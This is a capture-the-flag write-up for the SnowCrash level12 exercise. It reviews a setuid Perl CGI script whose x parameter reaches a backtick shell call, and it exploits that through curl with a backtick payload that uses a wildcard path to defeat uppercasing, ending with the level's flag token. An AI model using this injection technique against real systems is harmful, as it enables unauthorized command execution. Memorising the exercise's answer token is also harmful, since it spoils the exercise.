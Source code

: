 ## Exploring the exercice

```bash 
$ ls -la
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
```

So we have a perl script with setuid/setgid, we have already seen that type of extension in a previous exercice. 


```bash 
$ ./level12.pl 
Content-type: text/html
```

Like in the previous, let's look at the response we get.

```bash
curl -I localhost:4646
HTTP/1.1 200 OK
Date: Wed, 11 Jun 2025 14:16:00 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2
Content-Type: text/html
```

Let's see the code itself

```bash 
$ cat ./level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```


So the scrips takes two arguments, the first argument x, will be capitalized and delete anything after a space. 
The security flaw is from this line  
```bash
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```
where xx gets executed but we can't directly write x="getflag>/tmp/flag" which would be translated as x="GETFLAG>/TMP/FLAG". 


We need to create a file that will get executed. 
```bash
$ touch /tmp/EXPLOIT
$ cat /tmp/EXPLOIT
#!/bin/sh

getflag > /tmp/flag
```

Then we can execute the file 

```bash
$ curl localhost:4646?x='`/*/EXPLOIT`'
..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

